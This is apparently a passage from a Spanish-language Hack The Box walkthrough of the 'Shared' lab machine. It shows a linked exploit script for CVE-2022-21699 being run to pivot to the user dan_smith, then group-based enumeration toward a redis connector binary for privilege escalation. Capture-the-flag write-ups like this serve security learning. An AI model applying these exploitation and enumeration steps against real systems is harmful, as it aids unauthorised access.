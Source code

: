 > Puedes encontrar el script en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/Auto-tools_Shared/CVE-2022-21699.sh)
{: .prompt-info}

Ahora lo ejecutamos, esperamos unos segundos, nos logeamos como `dan_smith` y conseguimos la flag:

```console
james_mason@shared:/tmp$ ./CVE-2022-21699.sh
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 16 03:19:09 2022 from 127.0.0.1
dan_smith@shared:~$ whoami
dan_smith
dan_smith@shared:~$ find / -name user.txt 2>/dev/null | xargs ls -l
-rw-r----- 1 root dan_smith 33 Aug 16 00:52 /home/dan_smith/user.txt
```

## Privilege Escalation

* * *

Al igual que con el usuario anterior, hacemos una enumeración básica de nuestro usuario y nos damos cuenta que pertenece al grupo `1003(sysadmin)`, entonces buscamos directorios y archivos con ese **GUI (Group ID)**:

```console
dan_smith@shared:~$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
dan_smith@shared:~$ find / -group 1003 2>/dev/null
/usr/local/bin/redis_connector_dev
```

En contramos el binario __/usr/local/bin/redis_connector_dev__, lo ejecutamos y nos muestra lo siguiente:

```console
dan_smith@shared:~$ /usr/local/bin/redis_connector_dev
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:27580
run_id:52a282d2b4b882075ba776fde63771afa60e80cf
tcp_port:6379
uptime_in_seconds:5
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:16525803
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
```